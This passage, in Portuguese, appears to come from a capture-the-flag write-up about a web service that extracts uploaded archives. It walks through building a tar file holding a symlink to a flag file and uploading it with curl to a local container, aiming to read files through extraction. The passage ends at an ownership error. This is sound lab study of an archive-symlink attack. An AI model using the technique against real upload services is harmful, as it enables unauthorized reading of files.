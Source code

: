 Eu queria chamar a atenção para a chamada do comando `7z`:
```bash
/usr/bin/7z x -o./tmp -- a.zip
```

O patool basicamente usa a linha de comando pra chamar o [`7z`](https://linux.die.net/man/1/7z).

## Onde a falha deve TAR?

Tem duas pistas importantes no próprio código-fonte, mas vamos começar com uma delas:

```python
# make sure the file is a valid zip because Python's zipfile doesn't support symlinks (no hacking!)
if not is_zipfile(file_to_extract):
    raise HTTPException(status_code=415, detail=f"The input file must be an ZIP archive.")
```

Ele já explica que o zip não suporta os symlinks, mas e o TAR? Vamos comentar essa validação acima e reiniciar o container pra tesTAR com o Symlink (modo tiozão ativado).

```bash
$ echo "arquivo_local" > flag.txt

$ cat flag.txt 
arquivo_local

$ ln -s flag.txt flag.lnk

$ ls -l flag.lnk
lrwxrwxrwx 1 neptunian neptunian 8 jun 13 21:28 flag.lnk -> flag.txt

$ tar cvf give_me_flag.tar flag.lnk
flag.lnk

$ curl -X 'POST' \
>   'http://localhost/extract' \
>   -H 'accept: application/json' \
>   -H 'Content-Type: multipart/form-data' \
>   -F 'file=@give_me_flag.tar;type=application/tar'

{"detail":"Error extracting ZIP give_me_flag.tar: Command `['/bin/tar', '--extract', '--file', '/server/uploads/tmp68au0463/give_me_flag.tar', '--directory', '/server/uploads/tmp68au0463/tmpmf782p_m']' returned non-zero exit status 2"}
```

ERRO! mas o container tem mais informações:

```
server_1  | /bin/tar: flag.lnk: Cannot change ownership to uid 1002, gid 1003: Operation not permitted
server_1  | /bin/tar: Exiting with failure status due to previous errors
```

Ele até tentou extrair, mas teve problema de ownership. O server (no caso, o container) não conhece o uid/gid do meu usuário local:
